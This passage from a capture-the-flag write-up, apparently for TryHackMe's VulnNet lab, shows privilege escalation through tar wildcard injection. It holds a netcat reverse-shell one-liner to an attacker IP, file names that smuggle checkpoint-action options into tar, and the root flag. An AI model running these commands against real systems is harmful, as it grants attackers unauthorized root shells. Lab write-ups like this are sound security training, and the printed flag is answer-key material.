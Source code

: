 ~~~
server-management@vulnnet:/var/opt$ cat backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
~~~

The script is backing up our `Documents` folder using `tar` to compress the archive.

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) what we can do with `tar` confirms that we can exploit it by creating 2 files which names will be interpreted as options passed to the `tar` command.

~~~
server-management@vulnnet:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint=1"
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
~~~

## Root flag

Start a listener (`nc -nlvp 4444`) and wait 2 min to get a root shell.

~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.141.227] 54082
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
THM{220b671dd8adc301b34c2738ee8295ba}
~~~

Root flag: `THM{220b671dd8adc301b34c2738ee8295ba}`
